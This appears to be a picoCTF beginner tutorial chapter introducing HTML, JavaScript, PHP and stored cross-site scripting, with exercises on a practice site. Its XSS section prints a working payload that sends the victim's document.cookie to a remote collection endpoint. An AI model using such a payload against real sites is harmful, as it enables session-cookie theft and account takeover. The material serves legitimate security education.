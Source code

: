 

== Web Exploits

At this point, you have already learned python, so you have an idea on how a programming language works. We are more than ready to begin to learn Web!

=== Html

Before diving into Web Exploits, you need to understand how a website works. Many years ago, the web was used to visit static pages that did not have interactive features. They just showed information. To do a static page, it is enough to write some lines of HTML. What is HTML? First of all, it is not a programming language. Html means HyperText Markup Language, and we use it to determine the font size, colors, margins, or similar features in a web page. When an html file is accessed in a browser like Firefox, Chrome or whatever browser you like, the browser presents the text according to the html on it. Your browser can access an html file locally. Locally means that the file could be in your laptop ́s file system. Also, it could access the file remotely through the Internet. Let’s see an example of creating a simple html and access it locally:


. On your computer, create a folder called “picoexample” and then, inside that folder, create a text file and name it “myFirstPage.html”. You can do this on Notepad on Windows, Textedit on Mac, or any text editor from Linux. It is important that the extension is “.html”. It cannot be ”.html.txt” or something that is not exactly “.html”. If you don’t see the extension in your operating system, this is a good opportunity too google how to make it appear to be able to modify it. Remember, for this simple obstacles that might appear along the way, google is the answer.

. Edit the content in a text editor and write: Hello World!

. Save the file

. Open the file in any browser. To do that, you can right click on the file, and then select “open width” and choose the browser you want. You should see a page like the following:
image:images/image13.png[image,width=624,height=496]

. Now, in the text editor, modify the content of the file and replace the text by: <b>Hello World!</b>
. Save the file on the text editor. Then, open the file in the browser again, or you can simply click refresh on your browser. Since it already has opened the file, you will see the message in bold, in page similar to this:

image:images/image27.png[image,width=624,height=496]


You just created a page with a very simple HTML that made your message appeared in bold. Note that <b> is the opening tag, </b> is the closing tag. Analyze the difference between the opening and closing tag. What do you see? The closing tag is usually the same as the opening tag, but you include “/” like we just did. We just used an html tag to tell the browser we want some specific text in bold. Html is just a bunch of tags that allow us to do similar things.

Now let’s make a page with more fields so you can get a sense of more tags and of the structure of a bigger page. Use the following HTML code to replace the content of the file you are editing:




[source,html]
<html>
<header>
   <title>This is a picoCTF html Example</title>
</header>
<body>
   <h1>This is a Heading</h1>
   <h2>This is a smaller Heading</h2>
   <p>This is a paragraph.</p>
   The following is an image:<br>
   <img src="picologo.png" />
</body>
</html>


Now, as we were doing before, save the file in the text editor and click refresh on the browser. You probably see something like this:

image:images/image17.png[image,width=624,height=496]

If you read the html code and try to analyze its content, you would realize the following:

* The title shown in that tab of the browser “This is a picoCTF html Example”, appears there because you put that text inside in the <title></title> tags.
* <h1> Is used to create a big heading
* <h2> creates a heading a little smaller than <h1>
* The <header> tags are used to group introductory content, in this case the title, but if you remove this tag, you will not see much change in our page. Do the experiment of removing it. If you only remove the opening or closing tag, that would cause and html error, so make sure to delete the opening tag and closing tag.
* The <body> tags are used to group the main content of the page. Also, if you remove them, you will not see much change in our page.

Now, you must have noted the <img> tag is not showing any image as it should. Why? Let’s analyze the element img:

[source,html]
<img src="picologo.png" />

First you see there is not opening or closing tag, there is just one tag. This is ok for an image. As you can see, it has an *attribute* called ”src”, which means source. We are assigning to “src” the value “picologo.png”. Our html is gonna try to access a file called “picologo.png” in the same folder as “myFirstPage.html” is contained, which is the folder we name at first “picoexample”. There is no image called “picologo.png”, so the browser has nothing to show. Copy and paste an image to the folder and name it “picologo.png”. Don’t forget that the extension has to be ”.png”. If you successfully created the image “picologo.png” in the folder, and refresh the browser, you will see the following, of course, with your own custom image:

image:images/image22.png[image,width=624,height=496]

A fundamental part of web site are the links. The link tag is *<a>*, the following is an example of a link directed to google:

[source,html]
<a href="http://google.com" > Go to google! </a>

Use that element and put it in your code to make a link to the web site you want. Now practice by adding more html tags and images in your page! This is a reference in which you can find more html tags:

https://www.w3schools.com/tags/[[.underline]#https://www.w3schools.com/tags/#]

=== JavaScript

To make pages more interactive, JavaScript is commonly used. JavaScript is a programming language! We can do algorithms using it. JavaScript is executed in your browser. For example, when you visit a website, the JavaScript code is downloaded along the HTML and it only executes once it is loaded in your browser. When you visit a page, you are downloading an html file and your browser interprets the tags and prints the text and images as we learned before. This image illustrates that process:

image:images/image26.png[image,width=624,height=357]

If that file happens to contain JavaScript, your browser will execute it. Let’s look at an example. In the same folder “picoexample”, create a file called “myFirstJS.html“ using a text editor. Then, put the following content in the file:

[source,html]
<html>
    <header>
        <title>This is a picoCTF JS Example</title>
        <script>
            alert("Hello picoCTF");
        </script>
    </header>
    <body>
        <h1>JavaScript example</h1>>
    </body>
</html>


Save the file. As soon as you open the page, you will see an alert showing “Hello picoCTF”, something like this:

image:images/image5.png[image,width=624,height=496]

If you analyze the file, you will note that the magic is happening in this element:

[source,html]
<script>
    alert("Hello picoCTF");
</script>

Whatever you put inside the tags “<script> </script>” will be tried to execute by the browser. Since JavaScript is a programming language, we should be able to do some arithmetic. Replace the string “Hello picoCTF” by an arithmetic operation, like 8*8, like this:

[source,html]
<script>
    alert(8*8);
</script>

Note that we only use quotes when we want to use a string. In arithmetic operations we don’t use quotes. Save the file, and refresh the browser as we always do. You should see the following:

image:images/image18.png[image,width=624,height=496]

Click Ok in the alert message to make it go away. Anything you write in JavaScript or html, will be visible for any user that access your page in a browser. To see the html and Javascript code in your browser, right click the page and then “View Page Source”

image:images/image10.png[image,width=402,height=296]

You will see the javascript code you just wrote:

image:images/image6.png[image,width=474,height=376]

This is a very important thing! Never put a secret in your javascript code. If someone does it, that will be an open door for hacking.

Now let’s use some more elaborated code. We are going to make a page that adds two numbers input by the user and shows the result in an alert. The code is the following:

[source,html]
<html>
    <header>
        <title>This is a picoCTF JS Example</title>
        <script>
            function myFunctionSum(){
                var number1 = document.getElementById("number1").value;
                var number2 = document.getElementById("number2").value;
                var result = number1 + number2;
                alert(result);
            }
        </script>
    </header>
    <body>
        <h1>JavaScript example to add2 numbers</h1>
        Input the first number<br> 
        <input type="text" id="number1"  ><br>
        Input the second number<br> 
        <input type="text" id="number2" ><br>
        <button onclick="myFunctionSum()"> Show alert! </button>
    </body>
</html>

Put it on a text file and save it and open it on a browser as usual. You should see this:

image:images/image3.png[image,width=492,height=390]

If you put the numbers in each text field, and click “show alert!”, you will see the alert with the result. For this example let’s input 4 and 2 in the text fields, you should see:

image:images/image23.png[image,width=510,height=405]

Now that you know what the code does, let’s analyze the new lines of the code. In this line we have an input tag:

[source,html]
<input type="text" id="number1" ><br>

As you can see, it is of type text, and it has an “id” equal to “number1”. This “id” is something we arbitrarily define to be able to access the content of this text input in JavaScript. This line:

[source,html]
<button onclick="myFunctionSum()"> Show alert! </button>

Is responsible for calling the function “myFunctionSum()” when the button is clicked. The function has to be defined inside the script tags. With your knowledge of programming, you should be able to read the function and understand at a general level what each line is doing:

[source,javascript]
function myFunctionSum(){
    var number1 = document.getElementById("number1").value;
    var number2 = document.getElementById("number2").value;
    var result = number1 + number2;
    alert(result);
}

Modify the file to multiply the two numbers. When you are done, include a new third input number! At this point you should be able to do it on your own. Be careful with the syntax, remember that a single character wrong will break the whole code.

=== Server code

As we said previously, javascript is executed only in the browser. But, what if you want to do calculations and store data in the remote server? For example, when you login into a Website, your user and password has to be verified on the server. The password is stored in the server and should not travel outside of it for the sake of security. If you would verify a password on JavaScript, you would be able to see it on your browser in the same way you can see any JavaScript. There are several programming languages that can be executed on the server, for example:

* Python
* Java
* PHP
* C
* C Sharp
* And many more...

For our examples, we will begin using PHP, not because we think is a great language, but because most of the websites on the Internet use it and it is very easy to learn and deploy. As a hacker, you would generally have to learn all the languages you can because different Websites are made on different languages, as well as CTF challenges that try to simulate real life! The more a language is used, the more likely you will have to attack a website made with it. However, the vulnerabilities we will be explaining can happen in any programming language, because they are not a fault of the language, but a fault of the programmer that did the website.

Suppose you have a text file named hello.html, containing:

[source,html]
<b>Hello World!</b>
<script> alert('Hello World from JavaScript!'); </script>
<?php
    echo "Hello World from PHP!";
?>

If the server supports PHP, everything inside *<?php ?>* will be understood as PHP code and run by the server, not by the browser.

Look at the following image carefully to understand what happens:

image:images/image36.png[image,width=624,height=345]

If you open a file with that content on your laptop, the PHP code will not be executed, because your laptop is not a PHP server (if you have not made it one). So, to execute PHP you need to make your laptop a server. But for the time being, we can use the following simulator:

https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro

Access that link, and you will see an html file with PHP code, that when is run, prints "My first PHP script!". Modify the code to additionally print the date, so below the line

[source,php]
echo "My first PHP script!";

Add the line

[source,php]
echo date("H:i:s");

According to what you have learned so far, that time is from the clock on your computer? Or the time of the clock in the server?

...PHP is server side code, so that time is from the clock on the server!

Now let’s make an experiment, and add another line with this php code:

[source,php]
echo "<script> alert('Hello World from JavaScript!'); </script>";

That string echoed in PHP, has javascript code. Is the JavaScript alert shown? What happened? As expected, anything printed on php, will become an integral part of the html downloaded file, so the javascript will be executed. This opens the door for the famous attack of Cross Site Scripting (XSS).

=== Cross Site Scripting (XSS)

After you Login into a Website, the Website needs a way to know that any request coming from your browser is coming from a user that previously logged in, without the need to send the user-password again. To do that, the website can send to your browser a secret random value after login. That value is generally stored in a cookie or in javascript local storage. For this example, let’s pretend it is stored in a cookie, which is simply a variable in your browser that can retain data. If a Website sets a specific cookie in your browser, your browser automatically re-sends that cookie in each request to the website. If a Website only uses cookies to retain a session, and if a hacker can steal the authentication cookie from you, they could pretend to be you! At least until the cookie expires. Note that only using cookies for autentication will open the possibility of Cross Site Request Forgery (CSRF), but this will be explained later, for now let’s focus on XSS.

Suppose you are a hacker in a social network. When you create your account, instead of using your name, you input javascript code. When a friend of yours visit your profile, the WebSite will try to print your name, but your name is actually javascript code, so the browser might execute that javascript code. In that way, you could execute your own javascript on your friend’s browser!

When you get to execute javascript in someone else’s browser, you can read their authentication data, which can be a secret value placed on a cookie or javascript local storage after a user login. At that point, your friend’s account would probably be compromised!

An important skill to have, is to use the browser debugger. For this explanation we will use Firefox. You can download an install Firefox here:

https://www.mozilla.org/en-US/firefox/new/[[.underline]#https://www.mozilla.org/en-US/firefox/new/#]

Note: If you really don’t want to use Firefox, every browser has a debugger, so you just have to google how to use it. It will not be that different.

Using Firefox, input your name and some text in the description in the following link:

http://www.samuelsabogalpardo.com/pico/sign_up.php[[.underline]#http://www.samuelsabogalpardo.com/pico/sign_up.php#]

Open another tab and visit the following link. You should see your name and description:

http://www.samuelsabogalpardo.com/pico/tableusers.php[[.underline]#http://www.samuelsabogalpardo.com/pico/tableusers.php#]

Now, in the Firefox Menu, click “Web Developer” and then click “Debugger”. You should see a pane like the following:

image:images/image15.png[image,width=624,height=446]

In that pane, click “storage”. At the left click “cookies” and click the domain you are currently on. You will see a cookie that has your name in the value!

image:images/image25.png[image,width=624,height=370]

You can only see your cookie. Other users would see their cookie with their name. For this experiment, you will steal your own cookie. But with the same method, you could steal the cookie of someone else.

For now, access this link again:

http://www.samuelsabogalpardo.com/pico/sign_up.php[[.underline]#http://www.samuelsabogalpardo.com/pico/sign_up.php#]

Create a new user that has you name, but instead of the description has the following code:

<script> alert('I just injected Javascript!'); </script>

If you navigate this link again, you will see your javascript code triggered:

http://www.samuelsabogalpardo.com/pico/tableusers.php[[.underline]#http://www.samuelsabogalpardo.com/pico/tableusers.php#]

Like this:

image:images/image16.png[image,width=624,height=370]

You just verified that you can inject javascript in the website. Now we are going to inject javascript that will steal the cookie. Create another user in the same link for creating users:

http://www.samuelsabogalpardo.com/pico/sign_up.php[[.underline]#http://www.samuelsabogalpardo.com/pico/sign_up.php#]

But now, put this JavaScript code in the description:

[source,javascript]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "http://www.samuelsabogalpardo.com/pico/insert.php",
    {cookie : document.cookie, hackername : 'YourName'},
    function(data) {
        alert("I just stole the cookie!");
    }
);

</script>

Let’s understand the code. The first line, imports a library called jquery that allow us to do requests and send data from javascript to a service:

[source,javascript]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>

Then, we are just sending the cookie to a remote service that is made to receive cookies from this exercise. That service receive two variables: “cookie” and “hackername”. The value of the variable cookie will be “document.cookie”. Here, instead of “=”, we use “:” to assign a value to a variable. Using document.cookie you access the cookies from javascript, so that should contain the cookie you want to steal. The variable hackername simply has assigned a name. You could replace the string “YourName” with your actual name. Remember that a string has to be inside quotes in javascript.

The function:
[source,javascript]
function(data){
    alert("I just stole the cookie!");
}

Is simply a function that will be executed after the request is sent to the service, and will alert a message.

Now visit this site again:

http://www.samuelsabogalpardo.com/pico/tableusers.php[[.underline]#http://www.samuelsabogalpardo.com/pico/tableusers.php#]

When a user visits that site is when the javascript is executed and the cookie stolen. You should see the message:

image:images/image14.png[image,width=624,height=380]

If you injected scripts previously, all those scripts are stored in the web site, and will be executed in the order you injected them when the page that prints them is visited.

Now you should be able to see the cookie you stole here:

http://www.samuelsabogalpardo.com/pico/tablestolen.php[[.underline]#http://www.samuelsabogalpardo.com/pico/tablestolen.php#]

image:images/image21.png[image,width=624,height=380]

At this point you should have some understanding on how a website works. You are ready to begin to do more challenges on the pico gym for Web!